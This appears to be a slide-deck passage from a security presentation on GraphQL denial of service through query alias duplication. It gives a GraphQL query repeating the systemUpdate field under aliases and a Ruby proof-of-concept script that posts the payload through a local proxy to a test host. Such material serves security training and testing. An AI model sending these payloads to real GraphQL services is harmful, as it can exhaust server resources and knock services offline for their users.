 


![bg fit](assets/field-duplication.png)

---

### Denial of Service - Query aliases duplication attack

Alternative if batching is disabled.

---

```graphql
query {
  q1: systemUpdate
  q2: systemUpdate
  q3: systemUpdate
}
```

---

Ruby PoC for query aliases duplication:

```ruby
require 'httpx'

copy_level = 3
query = 'systemUpdate'
payload = (1..copy_level).map { |i| "q#{i}:#{query}" }.join(',')
data = { 'query' => "query{#{payload}}"}

HTTPX
  .plugin(:proxy)
  .with_proxy(uri: 'http://127.0.0.1:8080')
  .with(timeout: { operation_timeout: 120 })
  .post('http://noraj.test:5013/graphql', json: data)
```

---